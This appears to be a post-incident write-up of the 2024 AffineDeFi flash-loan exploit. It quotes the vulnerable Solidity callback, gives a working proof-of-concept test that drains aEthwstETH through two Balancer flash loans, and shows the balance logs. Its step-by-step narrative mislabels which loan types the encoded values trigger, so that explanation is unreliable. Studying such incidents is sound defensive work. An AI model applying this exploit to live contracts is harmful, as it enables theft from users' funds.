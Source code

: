
# AffineDeFi


## What's AffineDeFi?

Affine is the world's first cross-chain investment and savings app. We make it simple for users to onboard funds in an efficient and affordable manner using Polygon while gaining access to investment opportunities on multiple chains.

## Amount stolen
~$88K USD

Feb 1, 2024

## Vulnerability
Flash loan attack

## Analysis

The exploiter successfully repaid the initial flash loan using a subsequent flash loan.

### Vulnerable code

```solidity
    /// @notice Callback called by balancer vault after flashloan is initiated.
    function _flashLoan(uint256 amount, LoanType loan, address recipient) internal {
        ERC20[] memory tokens = new ERC20[](1);
        tokens[0] = WETH;
        uint256[] memory amounts = new uint256[](1);
        amounts[0] = amount;
        BALANCER.flashLoan({
            recipient: IFlashLoanRecipient(address(this)),
            tokens: tokens,
            amounts: amounts,
            userData: abi.encode(loan, recipient)
        });
    }
```

```solidity

function receiveFlashLoan(
    ERC20[] memory, /* tokens */
    uint256[] memory amounts,
    uint256[] memory, /* feeAmounts */
    bytes memory userData
) external override {
    if (msg.sender != address(BALANCER)) revert onlyBalancerVault();

    uint256 ethBorrowed = amounts[0];

    // Decode the userData to get the LoanType
    (LoanType loan, address newStrategy) = abi.decode(userData, (LoanType, address));

    // Switch or if-else statement to handle different LoanTypes
    if (loan == LoanType.divest) {
        _endPosition(ethBorrowed);  // This function handles divestment and repays the first flash loan
    } else if (loan == LoanType.invest) {
        _addToPosition(ethBorrowed);
    } else if (loan == LoanType.upgrade) {
        _payDebtAndTransferCollateral(LidoLevV3(payable(newStrategy)));
    } else {
        _rebalancePosition(ethBorrowed, loan);
    }

    // Payback wETH loan
    WETH.safeTransfer(address(BALANCER), ethBorrowed);
}
```

# proof of concept (PoC) 


### first flash loan:
-  `flashloan` is called with `amount[0] = 318973831042619036856`
- The Balancer pool initiates a flash loan of WETH to the `LidoLevV3` contract, using the specified `userencodeData` 


`userencodeData` is to determine the action

LidoLevV3.sol
```solidity
   /// @notice The different reasons for a flashloan.
    enum LoanType {
        invest,
        divest,
        upgrade,
        incLev,
        decLev
    }
```

### LidoLevV3 (`receiveFlashLoan` function):
- The `LidoLevV3` contract receives the flash loan.
- The `LoanType.invest` case is triggered in the `receiveFlashLoan` function.
- `_addToPosition` is called, which involves borrowing WETH, converting it to wstETH, depositing in AAVE, and borrowing again.

### Second Flash Loan:
- `flashloan` is called wiht `amount2[0] = 0`.
- The Balancer pool initiates a flash loan of 0 WETH to the `LidoLevV3` contract,
- using the specified `userencodeData2`. 

### LidoLev3 (`receiveFlashLoan` function):
- The `LidoLevV3` contract receives the second flash loan.
- The `LoanType.divest` case is triggered in the `receiveFlashLoan` function.
- `_endPosition` is called, which involves repaying debt in AAVE, unlocking collateral and converting it back to ETH.

```solidity

 function testExploit() external {
        emit log_named_decimal_uint(
            "Exploiter aEthwstETH balance before attack",
            IERC20(aEthwstETH).balanceOf(address(this)),
            IERC20(aEthwstETH).decimals()
        );

        bytes memory userencodeData = abi.encode(1, address(this));
        bytes memory userencodeData2 = abi.encode(2, address(this));
        uint256[] memory amount = new uint256[](1);
        uint256[] memory amount2 = new uint256[](1);
        IERC20[] memory token = new IERC20[](1);

        token[0] = IERC20(WETH);
        amount[0] = 318973831042619036856;
        amount2[0] = 0;
        IBalancer(Balancer).flashLoan(IFlashLoanRecipient(LidoLevV3), token, amount, userencodeData);
        IBalancer(Balancer).flashLoan(IFlashLoanRecipient(LidoLevV3), token, amount2, userencodeData2);

        emit log_named_decimal_uint(
            "Exploiter aEthwstETH balance after attack",
            IERC20(aEthwstETH).balanceOf(address(this)),
            IERC20(aEthwstETH).decimals()
        );
    }
```

### Balance Check:

Logs:
```
  Exploiter aEthwstETH balance before attack: 0.000000000000000000
  Exploiter aEthwstETH balance after attack: 33.698806193381635860
```

### Funds Movement Analysis:
- The first flash loan involves borrowing WETH, leveraging it in the `LidoLevV3` contract, and repaying the flash loan.
- The second flash loan involves repaying the flash loan without borrowing additional funds.


### Exploited Code
When the `LoanType` is `LoanType.divest`, the `_endPosition` function is called, which handles the divestment logic and ultimately repays the first flash loan. This ensures that the funds borrowed in the first flash loan are used as part of the divestment process, resulting in the repayment of the initial flash loan.

```solidity
if (loan == LoanType.divest) {
        _endPosition(ethBorrowed);  // This function handles divestment and repays the first flash loan
```


## Conclusion
While the first flash loan involved leveraging and borrowing funds,
the second flash loan aimed at repaying the flash loan without additional borrowing.
The funds moved within the LidoLevV3 contract during the flash loan transactions. 
The contract logs the balance of aEthwstETH before and after the flash loan attacks.

**Code provided by:** [DeFiHackLabs](https://github.com/SunWeb3Sec/DeFiHackLabs/blob/main/src/test/AffineDeFi_exp.sol)


[**< Back**](https://patronasxdxd.github.io/CTFS/)
